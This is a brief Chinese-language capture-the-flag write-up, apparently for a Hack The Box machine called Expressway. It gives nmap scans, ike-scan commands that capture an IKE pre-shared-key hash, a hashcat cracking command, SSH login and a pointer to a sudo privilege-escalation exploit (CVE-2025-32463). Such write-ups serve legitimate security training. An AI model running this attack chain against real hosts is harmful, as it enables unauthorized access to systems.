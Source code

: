 ```yaml
---
title: Expressway
weight: 736
tags:
  - linux
  - easy
  - ike-scan
  - cve-2025-32463
---
```


## 00. 摘要

> 关键词：UDP Scan、IKE Scan、CVE-2025-32463

1. 端口扫描


端口扫描：

```bash
# 发现 22 端口
nmap 10.129.238.52

# 发现 500 端口
nmap -sU 10.129.238.52
```

入口：

```bash
# 信息探测
sudo ike-scan -M 10.129.238.52

# 获取 hash
sudo ike-scan -P -M -A -n fakeID 10.129.238.52

# 爆破 hash
hashcat -m 5400 hash.txt /usr/share/wordlists/rockyou.txt
```

爆破出密码，然后ssh登录

信息收集，`sudo -V` 发现 sudo 版本是 1.9.17

网上搜索，发现可以用 [CVE-2025-32463](https://www.exploit-db.com/exploits/52352) 提权 


